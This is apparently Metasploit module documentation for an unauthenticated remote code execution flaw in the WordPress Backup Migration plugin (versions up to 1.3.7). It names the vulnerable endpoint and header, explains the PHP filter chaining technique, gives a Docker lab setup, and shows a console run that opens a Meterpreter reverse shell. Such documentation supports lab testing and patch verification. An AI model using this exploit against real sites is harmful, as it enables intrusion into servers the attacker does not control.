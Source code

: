 ## Vulnerable Application

This module exploits an unauth RCE in the WordPress plugin: Backup Migration (<= 1.3.7).  The vulnerability is
exploitable through the Content-Dir header which is sent to the /wp-content/plugins/backup-backup/includes/backup-heart.php endpoint.

The vuln makes use of a neat technique called PHP Filter Chaining which allows an attacker to prepend
bytes to a string by continuously chaining character encoding conversion. This allows an attacker to prepend
a PHP payload to a string which gets evaluated by a require statement, which results in command execution.

### Setup 

Spin up a Wordpress instance by running `docker-compose up` in the same directory as the `docker-compose.yml` file below:
```
version: "3"
# Defines which compose version to use
services:
  # Services line define which Docker images to run. In this case, it will be MySQL server and WordPress image.
  db:
    image: mysql:5.7
    # image: mysql:5.7 indicates the MySQL database container image from Docker Hub used in this installation.
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: MyR00tMySQLPa$$5w0rD
      MYSQL_DATABASE: MyWordPressDatabaseName
      MYSQL_USER: MyWordPressUser
      MYSQL_PASSWORD: Pa$$5w0rD
      # Previous four lines define the main variables needed for the MySQL container to work: database, database username, database user password, and the MySQL root password.
  wordpress:
    depends_on:
      - db
    image: wordpress:latest
    restart: always
    # Restart line controls the restart mode, meaning if the container stops running for any reason, it will restart the process immediately.
    ports:
      - "8000:80"
      # The previous line defines the port that the WordPress container will use. After successful installation, the full path will look like this: http://localhost:8000
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: MyWordPressUser
      WORDPRESS_DB_PASSWORD: Pa$$5w0rD
      WORDPRESS_DB_NAME: MyWordPressDatabaseName
# Similar to MySQL image variables, the last four lines define the main variables needed for the WordPress container to work properly with the MySQL container.
    volumes:
      ["./:/var/www/html"]
volumes:
  mysql: {}
```

Download the vulnerable Backup Migration plugin: `https://downloads.wordpress.org/plugin/backup-backup.1.3.7.zip`.
Navigate to `http://localhost:8000` and you'll be redirected and asked to setup the WordPress site. This includes 
setting a username, password, email address for the admin user etc. Once the setup is complete login as the newly created
admin user and via the options on the left side of the screen navigate to the `Plugins` and select `Add New`. Upload the
`backup-backup.1.3.7.zip` file. You should now see `Backup Migration` in the list of Plugins, select `Activate` on the
plugin. You should now have a vulnerable instance running. 

## Verification Steps

1. Start msfconsole
1. Do: `use `
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session in the context of the user running the WordPress application.

## Scenarios
### Backup Migration Plugin version: 1.3.7 (Containerized WordPress Version 6.0)
```
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set rport 8000
rport => 8000
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(multi/http/wp_backup_migration_php_filter) > options

Module options (exploit/multi/http/wp_backup_migration_php_filter):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   PAYLOAD_FILENAME  ONxu.php         yes       The filename for the payload to be used on the target host (%RAND%.php by default)
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             8000             yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI         /                yes       The base path to the wordpress application
   VHOST                              no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.123.1    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/wp_backup_migration_php_filter) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.0
[+] Detected Backup Migration Plugin version: 1.3.7
[+] The target appears to be vulnerable.
[*] Writing the payload to disk, character by character, please wait...
[*] Sending stage (39927 bytes) to 192.168.123.1
[+] Deleted L
[+] Deleted ONxu.php
[*] Meterpreter session 3 opened (192.168.123.1:4444 -> 192.168.123.1:56224) at 2024-01-11 12:17:34 -0500

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 856d06702f34
OS          : Linux 856d06702f34 6.5.11-linuxkit #1 SMP PREEMPT_DYNAMIC Wed Dec  6 17:14:50 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter >
```